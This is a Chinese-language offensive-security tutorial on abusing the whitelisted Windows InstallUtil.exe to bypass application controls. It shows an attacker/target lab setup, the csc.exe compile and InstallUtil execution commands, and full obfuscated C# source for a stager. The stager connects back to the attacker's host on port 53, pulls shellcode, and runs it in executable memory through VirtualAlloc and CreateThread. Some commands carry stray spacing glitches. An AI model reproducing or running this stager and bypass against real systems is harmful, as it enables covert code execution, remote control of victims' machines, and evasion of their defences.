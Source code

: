 
### Installutil简介：

Installer工具是一个命令行实用程序，允许您通过执行指定程序集中的安装程序组件来安装和卸载服务器资源。此工具与System.Configuration.Install命名空间中的类一起使用。
具体参考：Windows Installer部署
https://docs.microsoft.com/zh-cn/previous-versions/2kt85ked(v=vs.120)

**说明：**Installutil.exe所在路径没有被系统添加PATH环境变量中，因此，Installutil命令无法识别。

基于白名单installutil.exe配置payload：

Windows 7 默认位置：
```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe
```

**攻击机：**192.168.1.4 Debian  
**靶机：**192.168.1.3 Windows 7

### 配置攻击机msf：
![](media/dc56fe8b83b82c65150ac6715d296968.jpg)

### 靶机执行：

### 靶机编译：
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.Ente rpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Mic opoor.exe /keyfile:C:\Users\John\Desktop\installutil.snk /unsafe C:\Users\John\Desktop\installutil.cs
```
![](media/86a0962a09b6e1f14b90d523abc1e0f8.jpg)

**payload：**  
Micropoor.exe  
![](media/380382cb9c51c0a16a3d13b0b023985a.jpg)

**靶机执行：**
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U Micropoor.exe
```
![](media/8e03a632f426c981eaec67817eea1469.jpg)

### 附录：Micropoor.cs
**注：x64 payload**

```c#
using System; using System.Net; using System.Linq; using System.Net.Sockets; using System.Runtime.InteropServices; using System.Threading; using System.Configuration.Install; using System.Windows.Forms;

public class GQLBigHgUniLuVx {

public static void Main()

{

while(true)

{{ MessageBox.Show("doge"); Console.ReadLine();}}

}

} 

[System.ComponentModel.RunInstaller(true)]

public class esxWUYUTWShqW : System.Configuration.Install.Installer

{

public override void Uninstall(System.Collections.IDictionary zWrdFAUHmunnu)

{

jkmhGrfzsKQeCG.LCIUtRN();

}

} 

public class jkmhGrfzsKQeCG

{ [DllImport("kernel32")] private static extern UInt32 VirtualAlloc(UInt32 YUtHhF,UInt32 VenifEUR, UInt32 NIHbxnOmrgiBGL, UInt32 KIheHEUxhAfOI);

[DllImport("kernel32")]private static extern IntPtr CreateThread(UInt32 GDmElasSZbx, UInt32 rGECFEZG, UInt32 UyBSrAIp,IntPtr sPEeJlufmodo, UInt32 jmzHRQU, ref UInt32 SnpQPGMvDbMOGmn);

[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr pRIwbzTTS, UInt32 eRLAWWYQnq);

static byte[] ErlgHH(string ZwznjBJY, int KsMEeo) {

IPEndPoint qAmSXHOKCbGlysd = new IPEndPoint(IPAddress.Parse(ZwznjBJY), KsMEeo);

Socket XXxIoIXNCle = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

try { XXxIoIXNCle.Connect(qAmSXHOKCbGlysd); }

catch { return null;}

byte[] UmquAHRnhhpuE = new byte[4];

XXxIoIXNCle.Receive(UmquAHRnhhpuE, 4, 0);

int kFVRSNnpj = BitConverter.ToInt32(UmquAHRnhhpuE, 0);

byte[] qaYyFq = new byte[kFVRSNnpj + 5];

int SRCDELibA = 0;

while (SRCDELibA < kFVRSNnpj)

{ SRCDELibA += XXxIoIXNCle.Receive(qaYyFq, SRCDELibA + 5, (kFVRSNnpj ‐ SRCDELibA) < 4096 ? (kFVRSNnpj ‐ SRCDELibA) : 4096, 0);}

byte[] TvvzOgPLqwcFFv = BitConverter.GetBytes((int)XXxIoIXNCle.Handle);

Array.Copy(TvvzOgPLqwcFFv, 0, qaYyFq, 1, 4); qaYyFq[0] = 0xBF;

return qaYyFq;}

static void cmMtjerv(byte[] HEHUjJhkrNS) {

if (HEHUjJhkrNS != null) {

UInt32 WcpKfU = VirtualAlloc(0, (UInt32)HEHUjJhkrNS.Length, 0x1000, 0x40);

Marshal.Copy(HEHUjJhkrNS, 0, (IntPtr)(WcpKfU), HEHUjJhkrNS.Length);

IntPtr UhxtIFnlOQatrk = IntPtr.Zero;

UInt32 wdjYKFDCCf = 0;

IntPtr XVYcQxpp = IntPtr.Zero;

UhxtIFnlOQatrk = CreateThread(0, 0, WcpKfU, XVYcQxpp, 0, ref wdjYKFDCCf);

WaitForSingleObject(UhxtIFnlOQatrk, 0xFFFFFFFF); }} 

public static void LCIUtRN() {

byte[] IBtCWU = null; IBtCWU = ErlgHH("192.168.1.4", 53);

cmMtjerv(IBtCWU);

} }


```

>installutil.snk 596B  

>   Micropoor
